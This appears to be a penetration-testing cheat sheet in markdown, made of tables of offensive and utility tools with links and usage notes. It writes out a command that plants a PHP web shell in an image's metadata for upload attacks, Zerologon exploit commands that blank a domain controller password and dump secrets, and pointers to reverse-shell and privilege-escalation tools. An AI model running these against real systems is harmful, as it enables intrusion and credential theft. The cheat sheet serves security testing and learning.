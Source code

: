 
#### Misc
| Tool | Use | Command Syntax |
| ---- | --- | -------------- |
| [Exiftool](https://github.com/exiftool/exiftool) | Inspects the meta data of the image, Injects php payload in the comment section for file upload vulns, which can be added double extension `file.php.ext` | `./exiftool -Comment='<?php system($_GET['cmd']); ?>' <image.ext>`
| [Git Dumper](https://github.com/arthaud/git-dumper) | Dump the Github repo if found in website | `./git-dumper.py <website/.git> <output folder>` |
| [lxd-alpine builder](https://github.com/saghul/lxd-alpine-builder) | When a victim machine is implemented with lxc the privesc is done with this | [`article here`](https://www.hackingarticles.in/lxd-privilege-escalation/) |
| [Php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) | Php reverse shell, when an upload is possible change the IP and make req to obtain reverse shell | |
| [ZerologonPOC](https://github.com/risksense/zerologon) | CVE-2020-1472 Exploit, sets the domain admin password as empty pass and dump the secrets. _PS: Latest Version of Impackets is required_ | `python3 set_empty_pw.py machinename/domainname machine IP; secretsdump.py -just-dc -no-pass machinename\$@machineip`|
| [Gopherus](https://github.com/tarunkant/Gopherus) | SSRF with `gopher://` protocol | `gophreus --exploit phpmemcache` |
| [pse](https://github.com/ssstonebraker/Pentest-Service-Enumeration) | Quick notes from the terminal | | 
| [Shellerator](https://github.com/ShutdownRepo/shellerator) | Quick reverse shell commands generator | |
| [Starship](https://starship.rs/guide/#%F0%9F%9A%80-installation) | Cool Bash interpreter | |
| [bat](https://github.com/sharkdp/bat) | Colored man pages and cat |  |
| [colorls](https://github.com/athityakumar/colorls) | decorated ls |  |
| [exa](https://github.com/ogham/exa) | colored ls (JH Uses... I guess...) | |


# Tools for playing

| Tool | Usage | Link |
| ---- | ----- | ---- |
| Bloodhound.py | BloodHound Written in Python. Obtain AD infromation from windows remotely | [fox-it](https://github.com/fox-it/BloodHound.py) |
| Bloodhound | Native Bloodhound which requires neo4j and uses graphs to find vulnerabilities in AD | [BloodHoundAD](https://github.com/BloodHoundAD/BloodHound) |
| Exiftool | Obtain metadata informations from an Image | [exiftool](https://github.com/exiftool/exiftool) |
| LinEnum | Post Exploitation Script which automatically looks for juicy information from the compromised machine | [rebootuser](https://github.com/rebootuser/LinEnum) |
| Apache Directory Studio | Kindof AD for linux | [apache directory studio](https://directory.apache.org/studio/downloads.html) |
| Aquatone | Pass the CHROME installation path and a list of subdomains, it will automatically look snapshot and saves every website | [michenriksen](https://github.com/michenriksen/aquatone) | 
| Chisel | Ultimate Weapon for PortForwarding, Pivoting | [jpillora](https://github.com/jpillora/chisel) |
| Creddump | Obtains informations from windows registry hives | [moyix](https://github.com/moyix/creddump) |
| DirSearch | Directory Buster tool | [maurosoria](https://github.com/maurosoria/dirsearch) |
| GitTools | Analyzes and segregates the files according to the commits | [internetwache](https://github.com/internetwache/GitTools) |
| Gobuster | Directory Buster tool written in go | [OJ](https://github.com/OJ/gobuster) |
| Gopherus | Tool to generate GOPHER payload to bypass the SSRF protection | [tarunkant](https://github.com/tarunkant/Gopherus) |
| Impackets | SWISS repo for the AD and networking stuffs | [SecureAuthCorp](https://github.com/SecureAuthCorp/impacket) |
| Kerbrute | Tool to enumerate accounts with Kerberos Pre-Auth Enabled | [ropnopnop](https://github.com/ropnop/kerbrute/releases/latest)
| lxd-alpine-builder | Tool to create malicious LXC container | [saghul](https://github.com/saghul/lxd-alpine-builder) |
| php-reverse-shell | PHP Reverseshell from PentestMonkey | [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) |
| plink | SSH service for windows in the cli | [plink](https://the.earth.li/~sgtatham/putty/latest/w32/plink.exe) | 
| rustbuster | Directory Buster tool written in rust | [phra](https://github.com/phra/rustbuster) |
| socat | Network Proxy tool which is with a  highlevel functionalities | [craSH](https://github.com/craSH/socat) |